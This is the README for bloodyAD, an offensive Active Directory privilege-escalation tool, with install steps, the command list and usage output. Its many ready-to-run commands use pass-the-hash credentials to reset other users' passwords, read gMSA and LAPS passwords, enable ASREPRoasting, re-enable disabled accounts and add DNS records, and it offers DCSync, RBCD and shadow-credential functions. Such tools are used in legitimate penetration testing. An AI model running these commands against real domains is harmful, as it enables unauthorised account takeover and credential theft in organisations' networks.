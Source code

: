 > :warning: autobloody has been moved to its own [repo](https://github.com/CravateRouge/autobloody)  

# ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) bloodyAD

`bloodyAD.py` is an Active Directory privilege escalation swiss army knife

## Description

This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

`bloodyAD` supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## Installation

First if you run it on Linux, you must have `libkrb5-dev` installed on your OS in order for kerberos to work:
```ps1
# Debian/Ubuntu/Kali
apt-get install libkrb5-dev

# Centos/RHEL
yum install krb5-devel

# Fedora
dnf install krb5-devel

# Arch Linux
pacman -S krb5
```

A python package is available:

```ps1
pip install bloodyAD
bloodyAD --host 172.16.1.15 -d bloody.local -k set password john.doe 'Password123!'
```

Or you can clone the repo:

```ps1
git clone --depth 1 https://github.com/CravateRouge/bloodyAD
pip install .
bloodyAD --host 172.16.1.15 -d bloody.local -k set password john.doe 'Password123!'
```

### Dependencies

- Python 3
- DSinternals
- Impacket
- Ldap3
- Gssapi (linux) or Winkerberos (Windows)

## Usage

Simple usage:

```ps1
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password john.doe 'Password123!'
```

**Note:** You can find more examples on <https://cravaterouge.github.io/> and in the documentation folder of this project

List of all available functions:

```ps1
usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST]
                   {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,search,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl,add,get,remove}
                   ...

AD Privesc Swiss Army Knife

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,search,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl,add,get,remove}
    add                 [ADD] function category
    get                 [GET] function category
    remove              [REMOVE] function category
```

Help text to use a specific function:

```ps1
[bloodyAD]$ bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password -h
usage: bloodyAD.py set password [-h] [--oldpass OLDPASS] target newpass

positional arguments:
  target             sAMAccountName, DN, GUID or SID of the target
  newpass            new password for the target

options:
  -h, --help         show this help message and exit
  --oldpass OLDPASS  old password of the target, mandatory if you don't have "change password" permission on the target (default: None)
  ```

## How it works

bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. ~~A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.~~ Exchange of sensitive information such as passwords are now supported using cleartext LDAP.

## Useful commands

```ps1
# Get group members
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object Users --attr member 

# Get minimum password length policy
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr minPwdLength

# Get AD functional level
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr msDS-Behavior-Version

# Get all users of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type user

# Get all computers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type computer

# Get all containers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type container

# Enable DONT_REQ_PREAUTH for ASREPRoast
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 add uac john.doe DONT_REQ_PREAUTH

# Disable ACCOUNTDISABLE
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 remove uac john.doe ACCOUNTDISABLE

# Get UserAccountControl flags
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 get object john.doe --attr userAccountControl

# Read GMSA account password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword

# Read LAPS password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'COMPUTER$' --attr ms-Mcs-AdmPwd

# Read quota for adding computer objects to domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr ms-DS-MachineAccountQuota

# Add a new DNS entry
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 add dnsRecord my_machine_name 192.168.10.48

# Remove a DNS entry
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 remove dnsRecord my_machine_name 192.168.10.48

# Get AD DNS records
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 get dnsDump

```

## Acknowledgements
- Thanks to [impacket](https://github.com/fortra/impacket) contributors. [Structures](https://github.com/fortra/impacket/blob/master/impacket/structure.py) and several [LDAP attacks](https://github.com/fortra/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/ldapattack.py) are based on their work.
- Thanks to [@PowerShellMafia](https://github.com/PowerShellMafia) team ([PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)) and their work on AD which inspired this tool.
- Thanks to [@dirkjanm](https://github.com/dirkjanm) ([adidnsdump.py](https://github.com/dirkjanm/adidnsdump)) and ([@Kevin-Robertson](https://github.com/Kevin-Robertson))([Invoke-DNSUpdate.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)) for their work on AD DNS which inspired DNS functionnalities.
- Thanks to [@p0dalirius](https://github.com/p0dalirius/) and his [pydsinternals](https://github.com/p0dalirius/pydsinternals) module which helped to build the shadow credential attack
